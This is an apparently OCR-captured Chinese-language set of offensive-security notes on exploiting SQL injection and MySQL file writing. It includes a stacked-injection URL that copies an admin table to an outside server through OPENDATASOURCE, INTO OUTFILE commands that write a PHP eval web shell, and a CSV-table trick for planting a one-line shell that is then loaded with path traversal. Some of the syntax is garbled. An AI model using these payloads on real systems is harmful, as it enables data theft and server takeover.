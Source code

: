 ## 堆叠注入执行insert语句

```sql
https://api.xxx.com/getUserInfo?id=1;insert into opendatasource('sqloledb','server=123.123.123.123,1433;uid=test;pwd=123456;database=db1').db1.dbo.table1 (col1,col2) select col1,col2 from admin;
```


# mysql写文件

## 任意路径(outfile和dumpfile可用的情况下)

`select into` + 

- `outfile`可以写入多行，可输出终止符和换行格式，常用与脱库

- `dumpfile`只可写一行，并且输出中不存在任何格式，导入二进制文件不会因换行符导致文件被破坏，所以常用于写入软件 _udf提权_

### demo

```
  select "<?php eval($_REQUEST[8])?>" into outfile '../../../../php/a.php";
```

- `select 123 into outfile './1.txt'`

## 固定路径(低权限时方案)

> 利用mysql建表插入数据权限写入一句话木马，前提是等登录...爆破不出密码就尝试找其他文件上传漏洞吧

> 以下命令在mysql命令行环境中执行

### 查询数据库数据存储路径

```
select @@datadir
```

结果如：`D:\MySQL\data\`

### 选择数据库

- 查看数据库列表`select databases;`
- 选中有权限的数据库`use 数据库名`

### 创建表，将一句话木马作为字段名写入

```sql
create table if not exists `t`(`a` varchar(255) not null)engine=csv;
insert into t value('<?php eval($GET[8]);?>')
```

最后需要找到可控的引入点，将`D:\MySQL\data\数据库名\t.CSV`引入

绝对路径行不通的话可以尝试下相对路径`asdjfasdasdf/../../../../../../../../MySQL/data/数据库名/t.CSV`

